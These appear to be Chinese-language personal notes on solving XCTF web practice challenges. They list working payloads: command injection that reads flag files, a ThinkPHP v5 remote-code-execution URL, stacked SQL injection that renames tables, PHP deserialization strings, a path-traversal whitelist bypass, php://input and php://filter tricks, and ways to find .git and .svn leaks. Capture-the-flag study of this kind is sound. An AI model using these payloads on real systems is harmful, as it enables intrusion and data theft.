 XCTF-Exersice Area-Web

答题——web——新手

1
禁用js/F12

2
`robots.txt`在网站根目录
里面可以规定搜索引擎看或者不看什么内容

3

备份文件
`xxxx.txt.bak`
`index.phps` `xxxx.rar .zip .7z .tar.gz .bak .txt .swp`

github
`www.xxx.com/.git/config`

苹果电脑
`.DS_Store`
文件/目录泄露

`svn`文件泄露
`subversion`，开源代码控制系统
`www.xxx.com/.svn/entires`

4
burp可以看到cookie的提示
可以使用f12的`network`看，或者burp的histroy看到`response`

5
如果一个按钮不能点，`disabled=""`，删掉前端元素

6
`/?a=0a&b=1235x`

弱类型

8
`X-Forwarded-For: 123.123.123.123`
来路ip地址
`Referer:https://www.google.com`
从哪个页面来的

10
使用菜刀连接

11
`127.0.0.1|find / -name "flag*"`查找文件
`127.0.0.1|cat ../../../home/flag.txt`

12
十六进制
`\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30`
十进制
`55,56,54,79,115,69,114,116,107,49,50`
ascii码
`786OsErtk12`



进阶——

1



2 代码审计——做实验

```
<?php
highlight_file(__FILE__);
class emmm
{
    //检查输入参数
    public static function checkFile(&$page)
    {
        //定义白名单
        $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
        //是否有page参数，如果没有或者不是字符串，就false
        if (! isset($page) || !is_string($page)) {
            echo "you can't see it";
            return false;
        }

        //page是否在白名单
        if (in_array($page, $whitelist)) {
            return true;
        }

        //截取?之前的内容
        $_page = mb_substr(
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
        //如果?之前的内容在白名单里，程序结束
        if (in_array($_page, $whitelist)) {
            return true;
        }
        //urldecode
        $_page = urldecode($page);
        //再来一遍
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }
        echo "you can't see it";
        return false;
    }
}

//主要逻辑
if (! empty($_REQUEST['file'])
    && is_string($_REQUEST['file'])
    && emmm::checkFile($_REQUEST['file'])
) {
    include $_REQUEST['file'];
    exit;
} else {
    echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
}  
?> 
```

O:+4:"Demo":2:{s:10:"%00Demo%00file";s:8:"fl4g.php";}  在burp里%00需要处理一次再base64

TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==



3` thinkphp`框架漏洞

exp：

`/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls`



4 堆叠注入：——**修改数据库表，换名**

`/?inject=1';show databases; --+`

`/?inject=1';show tables; --+`
1919810931114514
words

``/?inject=1';show columns from `words`; --+``
words里面
id data
1919810931114514里面
flag

推断：
``select id,data from `words` where id='$id'``

``rename tables `words` to `haha`;``
``rename tables `1919810931114514` to `words`;``
``alter table `words` change `flag` `id` varchar(100);``


`/?inject=1' or 1 --+`







进阶：
1
index.php--->1.php
做了302，查看response

2
提示flag在
ffffllllaaaagggg
/source.php?file=hint.php%25%33%66/../../../../../../../../../../ffffllllaaaagggg

5
O:4:"xctf":2:{s:4:"flag";s:3:"111";}

6
O:+4:"Demo":2:{s:10:"%00Demo%00file";s:8:"fl4g.php";}
%00在burp中urldecode之后再base64加密
TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==

7
thinkphp v5漏洞

exp
/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls

8
/?hello=xxxxx&page=Php://input
<?php system("ls");?>

9
/?inject=1';show databases; --+

/?inject=1';show tables; --+
1919810931114514
words

/?inject=1';show columns from `words`; --+
words里面
id data
1919810931114514里面
flag

推断：
select id,data from `words` where id='$id'

rename tables `words` to `haha`;
rename tables `1919810931114514` to `words`;
alter table `words` change `flag` `id` varchar(100);

输出绝对正确的答案
/?inject=1' or 1 --+

12
js可以使用eval把字符串当作js执行，也可以alert弹窗
be0f233ac7be98aa

24
[true,true,true,true,true,true,true]

\-----------------

lang=php://filter/read=convert.base64-encode/resource=

[1-1000].php
1.php[1-1000].
md5(1.php[1-1000]).php

